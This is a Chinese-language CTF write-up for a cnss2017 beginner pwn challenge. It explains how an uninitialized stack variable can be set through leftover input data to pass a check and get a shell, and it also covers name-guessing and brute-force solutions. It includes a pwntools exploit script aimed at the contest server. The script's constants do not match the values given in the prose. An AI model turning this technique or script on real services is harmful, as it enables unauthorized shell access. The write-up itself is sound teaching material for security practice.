

Title: cnss2017萌新赛writeup:pwn2  
Date: 2017-04-01 22:30:19  
Modified: 2017-04-01 22:30:19  
Tags: ctf,cnss2017萌新赛,pwn  
Slug: cnss2017萌新赛writeup:pwn4  
Summary: cnss2017萌新赛writeup:pwn4  
# 1. 前言
本题原定只有一种解法，但是其实存在三种解法，接下来逐渐分析
# 2. 解法1：利用栈的残留数据
## 1. 分析
在读题后可以得知，这道题的思路为利用栈的残留数据来完成一些不可描述的事情  
丢进ida f5后查看`get_name_data`函数，发现它不过是一个简单的获取姓名并给出返回值的函数，并不存在栈溢出等奇怪的问题  
查看`gef_flag`函数时发现，这里面有个有趣的事情  
  
这里的验证用了三个局部变量，`tmp1`为`name_data`，`tmp2`为某个随机数对`1325`取模，最后将`tmp1`与`tmp2`加起来作为`result`的值与1792进行比较来判断是否通过了验证  
细心点会发现`result`并没有用赋值符号，而是用了`+=`，即`result`这个变量未经过初始化便投入了使用，会导致其中残留上一个函数的栈中的数据，正符合题说的利用栈的残留数据  
我们都知道，对于函数`rand`，使用前需要使用`srand`函数为其初始化一个种子，`对于相同的种子，取出的随机数序列是一模一样的`  
那么现在考虑，这样的问题  
由于`get_name_data`和`gef_flag`函数的参数同样只有一个，故其拥有相同的栈结构  
分别查看这两个函数的栈结构  
get_name_data：  
  
gef_flag：  
  
显然，`get_name_data`中`str`的范围为`0x74`到`0x10`，`gef_flag`中`result`的范围为`0x14`到`0x10`，由函数调用的堆栈状态可以得知，`若是变量未经过初始化，则其数值为上一个函数的栈中同样位置的值`，在这题中，`result`的值，对应着`str[96],str[97],str[98],str[99]`的数值，也就是说可以通过构造特定字符串来控制`result的初始值`  
现在`result`的初始值已经可以被我们控制，又
`get_name_data`函数返回了输入的名字这个字符串的`ascii码的和`，若是固定了输入的字符串`ascii码的和`，那么`tmp1`与`tmp2`的值也将由我们控制，这样一来，就控制了`result`函数的值，我们只需固定输入的字符串的`ascii码的和`，修改`str[96],str[97],str[98],str[99]`的数值使`result`最后的结果等于`1792`便可通过验证  
## 2. 构造字符串
首先，输入数据`'a' * 100`
可以看到其运行结果如图  
  
显然，`tmp1 = 9603`，`tmp2 = 541`，若是希望计算结果为`1792`，则需要使result的初始值为`1792 - 9603 - 541 = -9236`，在内存中的表示为`0xffffdbea`，其求和相比原来多了`-835`（不明白可自己写代码计算，char的最大值为127），将这`-835`分散到96个字符中的话每个字符需要减去`-5`，最后会余下`20`，将其加到第96个字符上即可  
若是不明白，可以看其python的计算代码  
```python
#!/usr/bin/env python
from pwn import *
import ctypes
context.log_level = 'debug'
#program = process('./pwn4')
program = remote('ctf.cnss.studio', 5004)
program.sendline()
old_str = p32(0x61616161)
old_sum = 0
new_str = p32(int(ctypes.c_uint(1792 - (1228 + 9800)).value))
new_sum = 0
for i in range(4):
    old_sum += ctypes.c_int8(ord(old_str[i])).value
    new_sum += ctypes.c_int8(ord(new_str[i])).value

raise_ascii = new_sum - old_sum
send_chr = chr(ord('a') - raise_ascii // 96)
chr_mod = raise_ascii % 96
send_str = send_chr * 95
send_str += chr(ord(send_chr) - chr_mod)
send_str += new_str
print(raise_ascii)
program.sendline(send_str)
program.interactive()
```
执行后可直接拿到shell  
# 3. 解法2：社会工程学
题目要求输入你的名字，由于出题人是属于凝聚工作室并且其id为`plusls`，猜测名字为`cnss_plusls`，发现直接通过检查拿到shell
# 4. 解法3：暴力
用C语言手写一遍代码取合适的位数爆破即可  
